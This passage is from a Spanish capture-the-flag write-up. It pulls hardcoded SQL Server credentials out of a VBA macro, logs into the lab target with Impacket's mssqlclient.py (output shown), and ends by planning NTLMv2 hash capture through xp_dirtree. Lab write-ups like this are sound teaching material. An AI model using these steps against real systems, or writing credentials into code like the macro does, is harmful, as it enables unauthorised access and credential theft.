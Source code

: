 ```bash

Private Sub Connect()

Dim conn As ADODB.Connection
Dim rs As ADODB.Recordset

Set conn = New ADODB.Connection
conn.ConnectionString = "Driver={SQL Server};Server=QUERIER;Trusted_Connection=no;Database=volume;Uid=reporting;Pwd=PcwTWTHRwryjc$c6"
conn.ConnectionTimeout = 10
conn.Open

If conn.State = adStateOpen Then

  ' MsgBox "connection successful"
  
  'Set rs = conn.Execute("SELECT * @@version;")
  Set rs = conn.Execute("SELECT * FROM volume;")
  Sheets(1).Range("A1").CopyFromRecordset rs
  rs.Close

End If

End Sub
```

Podemos resaltar un usuario y una contraseña:

- reporting:PcwTWTHRwryjc$c6

### Explotación MSSQL.

Si nos intentamos conectar a esa base de datos a traves de mssclient.py vemos que tenemos acceso.

```bash
mssqlclient.py  -p 1433 -db volume 'reporting:PcwTWTHRwryjc$c6@10.10.10.125' -dc-ip 10.10.10.125 -windows-auth 
Impacket v0.9.21 - Copyright 2020 SecureAuth Corporation

[*] Encryption required, switching to TLS
[*] ENVCHANGE(DATABASE): Old Value: master, New Value: volume
[*] ENVCHANGE(LANGUAGE): Old Value: , New Value: us_english
[*] ENVCHANGE(PACKETSIZE): Old Value: 4096, New Value: 16192
[*] INFO(QUERIER): Line 1: Changed database context to 'volume'.
[*] INFO(QUERIER): Line 1: Changed language setting to us_english.
[*] ACK: Result: 1 - Microsoft SQL Server (140 3232) 
[!] Press help for extra shell commands
SQL> 
```

No tenemos permisos para activar las opciones avanzadas para activar la funcion xp_cmdshell y ejecutar comandos a nivel del sistema.
La base de datos no tiene nada interesante. LLegados a este punto comprobé si las credenciales eran validas a nivel de SMB. No lo eran, asi que probe a ver si puedo extraer el hash NTLMv2 a traves de la función xp_dirtree
